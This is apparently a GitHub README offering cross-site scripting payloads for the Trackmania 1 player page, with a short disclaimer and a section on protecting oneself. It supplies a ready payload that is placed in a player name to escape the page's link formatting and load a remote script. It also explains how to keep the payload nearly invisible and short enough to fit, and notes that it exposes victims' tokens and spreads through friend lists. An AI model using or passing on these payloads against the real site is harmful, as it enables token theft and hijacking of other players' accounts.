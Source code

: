 # 🔗 trackmania-xss-payloads
Repo of XSS payloads you can try when using Trackmania 1's playerpage
> [!WARNING]
> I am not responsible for any damage done with the knowledge from this repo. It's a proof of concept which is created only for education and research purposes. By using this code you accept that you will **NOT** use this method in malicious purposes and that [kvbaxi](https://github.com/kvbaxi) takes no responsibility for misusage of this content.
  
- **[🔗 trackmania-xss-payloads](#-trackmania-xss-payloads)**
  - [💻 Put this in your name to make payload](#-put-this-in-your-name-to-make-payload)
  - [❗ How can you be safe?](#-how-can-you-be-safe)
  - [❓ How does it work?](#-how-does-it-work)
  - [🎥 Preview](#-preview)
  - [❔ List of payloads](#-list-of-payloads)
  
## 💻 Put this in your name to make payload
```
$l["><script/src="//payload_link_here"></script>]username
```
## ❗ How can you be safe?
> [!CAUTION]
> **THIS EXPLOIT EXPOSES YOUR TOKEN! DON'T SKIP THIS SECTION UNLESS YOU DON'T WANT TO BE SAFE!**

The easiest method of preventing yourself from being attacked by this exploit is by:
- Disabling JavaScript/Removing permission for JavaScript for this site - the site uses small amount to none of JavaScript, that means you can safely turn it off from this site while also not losing any funcitonalities of page.
- Do not add random people to friends. - Main way to get attacked by this attack is by having user with said payload in friends. As it will display friends in stats section you're very likely to be hit by this way if you won't be cautious. **Check who you're adding first!**

## ❓ How does it work?
Trackmania 1's playerpage is very insecure and old (due to the game not being updated), hence in time there were more and more security flaws found. One of them is this exact [XSS](https://wikipedia.org/wiki/Cross-Site-Scripting). It works by escaping the site's link formatting code and executing own code with newly appended `<script>` tag.  
  
One of the cons of this method is that you have limited set of characters you can use and length. You cannot use unescaped spaces as they will be escaped into HTML encoding (`" " -> &nbsp;`) so that is why I chose to use `/` instead as it converts `/` correctly as it was space.  
  
In result you get clean payload **almost** invisible to human eye. The main change you'll notice when using this payload on your name is that on stats page you'll see `">` on the beginning of your name. You can't prevent that without wasting another characters. In trackmania though, your payload is **completely invisible** on first look. Player has to hover over your name to see the suspicious payload in the place of link.  

Due to need in saving characters you cannot use the GitHub Pages link I have for my repo as it will be too long. I recommend using shortener that will make it as **short as possible**.

## 🎥 Preview
https://github.com/kvbaxi/trackmania-xss-payloads/assets/47297843/2a2593d9-e276-443b-9a18-7e3edaeb854f

## ❔ List of payloads
There are 2 example payloads prepared in the repo:
- [main.js](https://github.com/kvbaxi/trackmania-xss-payloads/blob/main/main.js) - Script informs user about their token (censored version) and then changes styles of the page. (as shown in preview above.)
- [rickroll.js](https://github.com/kvbaxi/trackmania-xss-payloads/blob/main/rickroll.js) - Scripts asks user for interaction with the website and then shows new popup with rick roll.


